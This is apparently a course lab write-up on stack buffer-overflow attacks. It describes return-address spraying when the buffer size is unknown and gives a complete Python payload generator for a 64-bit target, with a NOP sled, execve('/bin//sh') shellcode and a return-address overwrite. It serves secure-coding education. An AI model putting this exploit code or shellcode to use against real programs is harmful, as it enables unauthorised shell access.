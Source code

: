# TASK-4

## Launching Attack without Knowing Buffer Size (Level 2)

![image](https://github.com/udayk01/Secure_Coding/assets/52235763/c003634b-9f5a-493c-8cc5-4ec7e235bd42)

![image](https://github.com/udayk01/Secure_Coding/assets/52235763/4564c373-14d1-463a-b24a-f3fd35bd3255)

Rather than placing the shellcode at the start, we put it at the end of the malicious file and aim to manipulate the return address. We don't know the exact buffer size, which is typically 100-200 bytes, so we use a for loop to scatter multiple return addresses throughout the buffer. This increases the chances of hitting the correct return address, redirecting program execution to a NOP sled or shellcode and exploiting the vulnerability.

# TASK-5

## Launching Attack on 64-bit Program (Level 3)

![image](https://github.com/udayk01/Secure_Coding/assets/52235763/ab6b8b14-d700-435d-a73b-32e915b475ff)

```
#!/usr/bin/python3
import sys

# Replace this with the actual shellcode
shellcode = (
    b"\x90\x90\x90\x90" + 
    b"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    b"\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    b"\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
)
#  replace with your shellcode

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

# Put the shellcode somewhere in the payload
start = 100 # Adjust this to the desired position in the payload
content[start:start + len(shellcode)] = shellcode

# Decide the return address value and put it somewhere in the payload
ret = 0x7fffffffd8c0   # Replace with the actual target return address
offset = 216 # Adjust this to the desired offset within the payload
L = 8  # Use 4 for 32-bit address and 8 for 64-bit address

# Convert the return address to bytes and write it to the payload
content[offset:offset + L] = ret.to_bytes(L, byteorder='little')

# Print the payload
sys.stdout.buffer.write(content)
```
